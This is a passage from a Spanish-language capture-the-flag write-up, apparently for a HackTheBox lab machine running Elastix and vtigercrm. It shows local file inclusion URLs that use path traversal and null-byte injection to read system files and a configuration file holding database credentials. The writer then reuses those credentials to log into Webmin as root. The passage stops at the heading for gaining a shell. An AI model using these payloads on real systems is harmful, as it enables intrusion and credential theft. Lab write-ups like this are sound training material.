 Vemos que hay multiples usuarios con una `/bin/bash`

- fanis
- spamfilter
- asterisk
- cyrus
- mysql
- root

Usamos el LFI para enumerar la maquina

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/net/fib_trie%00&module=Accounts&action
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/net/tcp%00&module=Accounts&action
```

El fib_trie no nos muestra nada pero el tcp nos muestra los puertos internos que estan abiertos. Lo copiamos y lo pegamos en un fichero.
Como los puertos estan representado de forma hexadecimal, tenemos que tratar la data.

```bash
cat data.txt | tr ':' ' ' | awk '{print $3}' | sort -u

python3
>>> 0x0016
22
>>> 0x0019
25
>>> 0x0050
80
...
```

En el caso de un LFI ficheros interessantes podrian tambien ser `/proc/shed_debug` y `/proc/shedstat`. En este caso no sirbe pero esta
bien tenerlo en cuenta.

Si miramos el fichero del exploit `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..///etc/amportal.conf%00&module=Accounts&action`
Vemos un fichero de configuracion con credenciales para una base de datos.

Si vamos por el panel de login y probamos usuarios, nos podemos connectar como el usuario admin.

Como tenemos contraseñas, intentamos connectarnos con el usuario admin pero no va.
Intentamos como el usuario root y la misma contraseña y entramos en el panel de configuracion de **webmin**.

> [ ! ] NOTAS: Tito S4vitar nos avanza que se puede ganar accesso al systema desde el dashboard de elastix y tambien del webmin pero aqui tiraremos de otras vias.

## Vuln exploit & Gaining Access {-}

### Ganando accesso desde el vtiger {-}
